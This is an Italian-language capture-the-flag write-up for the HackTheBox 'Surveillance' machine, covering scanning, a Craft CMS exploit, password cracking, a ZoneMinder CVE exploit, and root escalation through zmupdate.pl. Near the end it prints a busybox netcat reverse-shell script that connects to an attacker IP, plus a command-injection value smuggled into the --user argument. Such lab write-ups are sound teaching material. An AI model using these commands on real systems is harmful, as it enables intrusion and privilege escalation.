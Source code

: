 # Surveillance

## Reconnaissance

Per prima cosa eseguo una scansione iniziale con nmap.

```text
sudo nmap -sC -sV -O -oA /usr/share/nmap/initial 10.10.11.245
```

* **-sC**: scipt nmap di default
* **-sV**: per rilevare la versione dei servizi
* **-O**: per rilevare il SO
* **-oA**: per stampare tutti i formati e salvarli nel file _nmap/initial_

Il risultato della scansione è il seguente:

```text
Nmap scan report for 10.10.11.245 (10.10.11.245)
Host is up (0.044s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://surveillance.htb/
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=1/5%OT=22%CT=1%CU=41568%PV=Y%DS=2%DC=I%G=Y%TM=6597C
OS:D2C%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A)S
OS:EQ(SP=105%GCD=4%ISR=109%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=106%GCD=1%ISR=109%TI=
OS:Z%CI=Z%II=I%TS=A)SEQ(SP=106%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M54
OS:DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6
OS:=M54DST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF
OS:=Y%T=40%W=FAF0%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%
OS:Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y
OS:%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%R
OS:D=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IP
OS:L=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Aggiungo _surveillance.htb_ al file _/etc/hosts_ e passo alla fase successiva.

## Enumeration

Successivamente, visito la pagina http://surveillance.htb/:

<p align="center">
  <img src="/Immagini/Linux-Box/Surveillance/surveillance-1.png"/>
</p>

Provo ad utilizzare il comando _dirsearch_:

```text
dirsearch -u http://surveillance.htb/
```

```text
[04:37:47] Starting:
[04:37:50] 301 -  178B  - /js  ->  http://surveillance.htb/js/
[04:42:24] 200 -    0B  - /.gitkeep
[04:42:57] 200 -  304B  - /.htaccess
[04:57:16] 302 -    0B  - /admin  ->  http://surveillance.htb/admin/login
[04:58:11] 302 -    0B  - /admin/  ->  http://surveillance.htb/admin/login
[04:58:19] 302 -    0B  - /admin/admin  ->  http://surveillance.htb/admin/login
[04:58:36] 200 -   38KB - /admin/admin/login
[04:58:53] 200 -   38KB - /admin/login
```

Ma il risultato ottenuto non è interessante, se non la pagina di login:

<p align="center">
  <img src="/Immagini/Linux-Box/Surveillance/surveillance-3.png"/>
</p>

Dopo aver fatto delle ricerche online scopro che _Craft CMS_ è vulnerabile e trovo un [repository](https://gist.github.com/gmh5225/8fad5f02c2cf0334249614eb80cbf4ce) contenente una POC.

## Exploitation

Modificando il codice riesco ed eseguendolo riesco ad ottenerne una shell:

<p align="center">
  <img src="/Immagini/Linux-Box/Surveillance/surveillance-2.png"/>
</p>

Purtroppo è una shell molto instabile, ma riesco a trovare un file di backup nel quale identifico uno user Matthew e l'hash della sua password.

Utilizzando _johntheripper_ ricavo la password:

```text
matthew:starcraft122490
```

Quindi accedo tramite ssh con le credenziali appena ottenute e conquisto il primo flag:

<p align="center">
  <img src="/Immagini/Linux-Box/Surveillance/surveillance-4.png"/>
</p>

## Privilege Escalation

Trasferisco lo script _linpeas.sh_ sulla macchina vittima e lo eseguo. Dal risultato emergono delle cose interessanti.

Sulla macchina è attiva la porta 8080:

<p align="center">
  <img src="/Immagini/Linux-Box/Surveillance/surveillance-5.png"/>
</p>

Inoltre, riesco a ricavare una password:

<p align="center">
  <img src="/Immagini/Linux-Box/Surveillance/surveillance-6.png"/>
</p>

Quindi creo un tunnel SSH locale dalla mia macchina alla macchina vittima:

```text
ssh -L 2323:127.0.0.1:8080 matthew@surveillance.htb
```

Visito la pagina _localhost:2323_:

<p align="center">
  <img src="/Immagini/Linux-Box/Surveillance/surveillance-7.png"/>
</p>

Facendo una ricerca su internet trovo una [vulnerabilità](https://github.com/rvizx/CVE-2023-26035) collegata a _ZoneMinder_.

Quindi seguo le istruzioni e ottengo una shell per l'utente _zoneminder_:

<p align="center">
  <img src="/Immagini/Linux-Box/Surveillance/surveillance-8.png"/>
</p>

Controllo i permessi dell'utente:

<p align="center">
  <img src="/Immagini/Linux-Box/Surveillance/surveillance-9.png"/>
</p>

Dopo aver perso un po di tempo online trovo una vulnerabilità collegata al file _zmupdate.pl_.

Per sfruttarla, come prima cosa creao un file _exploitzmupdate.sh_ nella cartella _/tmp_:

```text
#!/bin/bash
busybox nc 10.10.14.7 4444 -e sh
```

Poi lancio il seguente comando:

```text
sudo /usr/bin/zmupdate.pl --version=1 --user='$(/tmp/exploitzmupdate.sh)' --pass=ZoneMinderPassword2023
```

<p align="center">
  <img src="/Immagini/Linux-Box/Surveillance/surveillance-10.png"/>
</p>

**Sono root!**
